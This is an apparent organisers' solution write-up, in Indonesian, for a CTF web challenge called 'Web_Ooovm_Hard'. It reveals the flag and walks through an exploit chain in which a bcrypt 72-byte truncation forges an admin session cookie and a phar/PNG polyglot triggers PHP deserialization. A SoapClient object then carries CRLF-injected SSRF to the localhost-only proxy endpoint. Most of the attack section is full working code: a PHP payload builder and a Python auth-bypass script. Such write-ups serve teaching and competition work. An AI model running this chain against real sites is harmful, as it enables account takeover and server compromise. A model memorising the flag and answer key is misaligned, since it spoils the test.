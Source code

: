 

# Web_Ooovm_Hard

Author: Ismail Hakim - twang#7040

Descriptions: Website ooovm dengan berbagai kapabilitasnya

# Untuk Panitia

Flag: FindITCTF{w0w_y0ur3_93n1u5}

Deployment steps:

Solving steps:

Pada `[entrypoint.sh](http://entrypoint.sh)` , perintah ini digunakan untuk generate secret sebanyak 15 karakter.

```python
SECRET=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)
```

`CustomSessionHandler.php` mengupdate 

```php
# Notes
# Cookie diupdate tiap kali mengupload gambar

public function __construct()
    {
        if (isset($_COOKIE['PHPSESSID']))
        {
            $split = explode('.', $_COOKIE['PHPSESSID']);

            $data = base64_decode($split[0]);
            $signature = base64_decode($split[1]);

            if (password_verify(SECRET.$data, $signature))
            {
                $this->data = json_decode($data, true);
            }
        }

        self::$session = $this;
    }

# Notes
# Penggunaan PASSWORD_BCRYPT akan mengakibatkan maximum length menjadi 72 karakter.
public function toJson()
    {
        ksort($this->data);
        return json_encode($this->data);
    }

public function save()
    {
        $json = $this->toJson();
        $jsonb64 = base64_encode($json);
        $signature = base64_encode(password_hash(SECRET.$json, PASSWORD_BCRYPT));

        setcookie('PHPSESSID', "${jsonb64}.${signature}", time()+60*60*24, '/');
    }

```

$password argument akan menjadi 15 karakter SECRET, sisanya dari 72 karakter akan dapat dikontrol oleh penyerang. 72 - 15 = 57. Setelah bit ke 57, maka kita akan bisa menginjeksikan username.

Selanjutnya, iita perlu bypass fungsi filtering di bawah ini dengan menggunakan phar - png polyglot.

```php
public function isValidImage()
    {
        $file_name = $this->file->getFileName();

        if (mime_content_type($file_name) != 'image/png') 
            return false;

        $size = getimagesize($file_name);

        if (!$size || !($size[0] >= 120 && $size[1] >= 120) || $size[2] !== IMAGETYPE_PNG)
            return false;

        return true;
    }
```

Selanjutnya, karena adanya penerapan proxycontroller.php maka dapat dipakai untuk bypass filtering kedua. Yaitu filtering dari IP 127.0.0.1 dengan menggunakan teknik SSRF

```php
public function index($router)
    {
        $session = CustomSessionHandler::getSession();
        if ($session->read('username') != 'admin' || $_SERVER['REMOTE_ADDR'] != '127.0.0.1')
        {
            $router->abort(401);
        }
...
```

Payload:

```php
<?php
  class ImageModel {
      public $file;
      public function __construct($file) {
          $this->file = $file;
      }

      public function __destruct()
      {
          $this->file->getFileName();
      }
  }

  $cookie = '<auth_bypass_cookie>;';
  $gopher_payload = '<gopher:///....>';
  $post_data = 'url=' . urlencode($gopher_payload);

  $localhost = 'http://127.0.0.1';
  $CRLF = "\r\n";
  $crlf_init_str = $CRLF . 
      'Content-Length: 0' .
      str_repeat($CRLF, 2);

  $smug_headers = [
      'POST /proxy HTTP/1.1',
      'Host: admin.imagetok.htb',
      'Connection: Close',
      'Content-Type: application/x-www-form-urlencoded',
      'Cookie: PHPSESSID=' . $cookie,
      'Content-Length: ' . (string)strlen($post_data)
      ];

  $smug_headers_str = join($CRLF, $smug_headers) .
      str_repeat($CRLF, 2);

  $crlf_payload =
       $crlf_init_str .
       $smug_headers_str .
       $post_data;

  $ssrf_object = new ImageModel(new SoapClient(null, array(
          'uri' => 'bbb',
          'location' => $localhost,
          'user_agent' => 'xxx' . $crlf_payload,
      )));

  $png_data = fread(fopen('image.png', 'rb'), filesize('image.png'));
  $phar = new Phar('exploit.phar');
  $phar->startBuffering();
  $phar->addFromString('test.txt', 'test');
  $phar->setStub($png_data . ' __HALT_COMPILER(); ? >');
  $phar->setMetadata($ssrf_object);
  $phar->stopBuffering();
  rename('exploit.phar', 'exploit.png');

  echo serialize($ssrf_object) . "\n";
?>
```

```php
from sys import argv
import requests
from base64 import b64decode, b64encode
import json
from urllib import parse

def get_args():
	if len(argv) != 3:
		print('Usage: ', argv[0], 'http://ip:port <file>')
		exit(1)
	return argv[1], argv[2]

def decode_cookie(cookie):
	json_data, key = parse.unquote(cookie).split('.', 1)
	data = json.loads(b64decode(json_data))
	return data, key

def encode_cookie(data, key):
	json_data = json.dumps(data)
	formatted_data = json_data.replace(' ', '').replace("'", '"')
	b64_data = b64encode(formatted_data.encode())
	data_str = '.'.join([b64_data.decode(), key])
	encoded_data = data_str
	return encoded_data

def fill_cookie(s, target, file):
	"""
	Fill the cookie with just enough data to exploit the password_hash/password verify
	functions.
	"""
	for i in range(3):
		with open(file, 'rb') as f:
			files = {'uploadFile': (file, f, 'image/png')}
			r = s.post(target+'/upload', files=files)
		if r.status_code == 200:
			print('File uploaded successfuly', r.status_code)
		data, key = decode_cookie(s.cookies['PHPSESSID'])
		print(data)
	return s, data, key

def auth_bypass(s, target, data, key):
	"""
	Now anything past 71 bytes will be truncated and valid data within the cookie.
	"""
	data['username'] = 'admin'
	encoded_cookie = encode_cookie(data, key)
	s.cookies.set('PHPSESSID', encoded_cookie)
	r = s.post(target)
	return r.cookies['PHPSESSID']

def main():
	target, file = get_args()
	s = requests.session()

	s, data, key = fill_cookie(s, target, file)
	admin_cookie = auth_bypass(s, target, data, key)

	print('\n[*] Auth bypass exploited! Admin cookie:')
	print(admin_cookie)

if __name__ == '__main__':
	main()
```

**http://<ip:port>/phar:%2F%2F/<uploadedfilename>.png**

# Untuk Peserta

Nama Problem:

Deskripsi singkat: Website ooovm dengan berbagai kapabilitasnya

Hint (jika perlu): 

1. Session fixation
2. SSRF dari endpoint proxy
